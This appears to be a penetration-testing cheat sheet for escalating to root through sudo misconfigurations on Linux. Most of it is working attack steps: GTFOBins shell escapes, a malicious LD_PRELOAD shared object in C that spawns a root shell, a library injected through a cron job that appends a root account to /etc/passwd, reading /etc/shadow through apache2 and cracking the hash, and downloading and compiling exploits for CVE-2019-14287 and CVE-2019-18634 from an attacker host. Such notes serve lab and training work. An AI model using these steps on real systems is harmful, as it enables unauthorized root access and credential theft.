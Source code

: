 Look into #PATH-Hijacking! 

#### Sudo bins
```bash - kali
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.


```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```


#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - kali
sudo -l
```


```bash - kali
nano shell.c
```

```bash - kali
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - kali
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - kali
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash 
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev


We go to /usr/bin and try to execute log-sweeper, we find a message:

We can create a malicious utils.c:

```bash - kali
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - kali
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - kali
su newroot
```

```bash - kali
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash
sudo -l
```

 (root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```


4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

password123 (?)

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash
su
```

```bash
password123
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```bash
https://www.exploit-db.com/exploits/47502
```


```bash
sudo -u#-1 /bin/bash
```


#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash
sudo -l
```


2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - kali
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - kali
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - kali
./exploit
```

Hit enter a time or two.

